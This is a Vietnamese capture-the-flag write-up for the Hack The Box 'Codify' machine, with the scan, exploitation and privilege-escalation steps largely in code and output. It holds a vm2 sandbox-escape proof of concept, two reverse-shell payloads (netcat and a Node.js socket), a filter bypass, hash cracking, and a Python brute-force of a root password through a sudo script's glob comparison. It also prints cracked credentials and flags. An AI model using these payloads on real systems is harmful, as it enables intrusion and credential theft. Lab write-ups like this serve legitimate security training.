

> [!NOTE]
> - Mức độ: Dễ 
> - OS: Linux
> - Url: [Codify](https://app.hackthebox.com/machines/Codify)
> - Mô tả: Codify là một máy Linux ở mức độ dễ, chứa một ứng dụng web cho phép người dùng thử nghiệm mã nguồn Node.js. Ứng dụng này sử dụng thư viện vm2 vốn tồn tại lỗ hổng bảo mật, cho phép kẻ tấn công thực thi mã từ xa (remote code execution). Quá trình liệt kê thông tin trên hệ thống mục tiêu cho thấy một cơ sở dữ liệu SQLite chứa một giá trị băm (hash); sau khi giải mã giá trị này, người dùng có thể truy cập vào máy thông qua SSH. Cuối cùng, một tập lệnh Bash (Bash script) có lỗ hổng có thể được thực thi với đặc quyền nâng cao để tiết lộ mật khẩu của người dùng root, từ đó giành được quyền truy cập quản trị vào hệ thống.

# Recon

## Port scan 

> - Quét các cổng phổ biến phát hiện 3 cổng được mở 
> - Trong đó cổng 22 cho SSH 
> - Cổng 80, 3000 cho HTTP 

```
└─$ nmap -sSVC 10.129.57.163              
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-20 06:42 -0400
Nmap scan report for 10.129.57.163
Host is up (0.059s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.44 second
```

## Web 

> - Cả 2 cổng 80, 3000 đều có cùng 1 nội dung có thể cổng 3000 chỉ là proxy 
> - Dịch vụ web là 1 chương trình chạy mã nguồn nodejs và có 1 danh sách trắng các thư viện được dùng , các thư viện không
> - Được chạy trong môi trường sandbox `vm2`

- Thử require("chid_process) sẽ báo lỗi 



- Xác định phiên bản vm2 là phiên bản 3.9.15

```javascript
const vm2Version = require('vm2/package.json').version;
console.log(` ${vm2Version}`);
```

# Exploit 

> - Phiên bản vm2 3.9.15 có lỗ hổng bảo mật thoát khỏi sandbox và có thể thực thi các lệnh hệ thống từ đó có thể tọa reverse shell kết nối 
> [Poc CVE-2023-29199 ](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c)

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('busybox nc IP PORT -e /bin/bash');
}
`

console.log(vm.run(code));
```

> - Cách khác để vượt qua bộ lọc thư viện của chương trình 
> - Hệ thống chỉ lọc thư viện `child_process` nên nếu dùng `require("node:child_process")` sẽ vượt bộ lọc 

```
(function(){
    var net = require("net"),
        cp = require("node:child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(PORT, "IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

> Mở cổng lắng nghe 

```
nc -lvnp PORT 
```

# Privelege Escalation

## Leo thang lên joshua 

> - Liệt kê thư mục /var/www/ sẽ tìm thấy 1 file SQLite3 database `tickets.db`

```
c@codify:/var/www/contact$ ls -al
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db
```

> Mở file bằng sqlite3 sẽ thu được hashpass của người dùng joshua 

```
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .databases
main: /var/www/contact/tickets.db r/w
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

> Crackhash bằng John The Ripper thu được thông tin xác thực `joshua:spongebob1` kết nối với hệ thống bằng thông tin này 

```
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:45 DONE (2026-10-20 07:31) 0.02177g/s 29.39p/s 29.39c/s 29.39C/s crazy1..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> Sau khi kết nối với vai trò joshua thu được User Flag 

```
f961d919a4e3e067a9b3f92be88beacb
```

## Leo thang lên root 

> - Liệt kê các lệnh joshua có thể chạy với sudo
> - `/opt/scripts/mysql-backup.sh` có thể chạy với vai trò root 

```
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

> - Chương trình yêu cầu nhập password và so sánh với password được lưu trong file /root/.creds
> - Nếu thông tin xác thực chính xác sẽ tiến hành backups dữ liệu cơ sở dũ liệu mysql vào file `/var/backups/mysql`

```
joshua@codify:/opt/scripts$ cat mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

> - Vấn đề chương trình trên là phần so sánh thông tin xác thực 
> - `[[ $DB_PASS == $USER_PASS ]]` so sánh mật khẩu không dùng dấu ngoặc kép "" nó tiến hành so khớp mẫu thay ví so sánh 2 chuỗi 
> - Nếu nhập `*` mật khẩu sẽ đúng 
> - Tạo chương trình tạo mẫu để tìm mật kahaur chính xác 

```
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

> - Chương tình tạo mảng kí tự có thể có trong mật khẩu 
> - Lặp qua từng kí tự nếu không có lỗi thì đó là kí tự chính xác 

```python
import string
import os

chars = string.ascii_letters + string.digits

password = ''

while True:
    for char in chars:
        error = os.system("echo " + password + char +  "* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
        if error == 0:
            password += char
            print(f'[+] {password}')
            break
    else:
        break
print(f'Password: {password}')
```

> - Chạy chương tình thu được thông tin xác thực 

```
joshua@codify:~$ python3 brute-force.py 
[+] k
[+] kl
[+] klj
[+] kljh
[+] kljh1
[+] kljh12
[+] kljh12k
[+] kljh12k3
[+] kljh12k3j
[+] kljh12k3jh
[+] kljh12k3jha
[+] kljh12k3jhas
[+] kljh12k3jhask
[+] kljh12k3jhaskj
[+] kljh12k3jhaskjh
[+] kljh12k3jhaskjh1
[+] kljh12k3jhaskjh12
[+] kljh12k3jhaskjh12k
[+] kljh12k3jhaskjh12kj
[+] kljh12k3jhaskjh12kjh
[+] kljh12k3jhaskjh12kjh3
Password: kljh12k3jhaskjh12kjh3
```

> - Dùng thông tin xác thực đó sẽ leo thang được lên root 
> - Root flag 

```
9864beb08e2ef9d6d43ceca4a728399a
```

# Kết luận 

> [!NOTE]
> - Nang cấp bộ lọc blacklist của web, nâng cấp phiên bản vm2 khắc phục lỗi thoát sandbox 
> - Xóa file csdl chứa hash pass hoặc đổi mật khẩu mạnh hơn 
> - Cập nhật chương trình `/opt/scripts/mysql-backup.sh` khắc phục lỗi so sánh thông tin xác thực 